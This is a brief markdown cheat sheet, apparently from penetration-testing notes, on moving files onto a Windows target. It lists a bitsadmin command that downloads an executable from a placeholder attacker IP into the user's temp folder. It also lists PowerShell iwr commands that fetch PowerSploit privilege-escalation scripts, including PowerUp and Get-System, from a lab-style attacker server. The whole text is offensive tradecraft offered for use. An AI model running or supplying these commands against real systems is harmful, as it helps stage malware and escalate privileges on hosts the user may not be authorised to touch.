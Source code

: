 # files transfert

## bitsadmin
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe


## powershell
iwr http://10.10.14.2:8000/PowerSploit/Privesc/Privesc.psm1 -outfile Privesc.psm1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/Get-System.ps1 -outfile Get-System.ps1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/Privesc.psd1 -outfile Privesc.psd1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/PowerUp.ps1 -outfile PowerUp.ps1

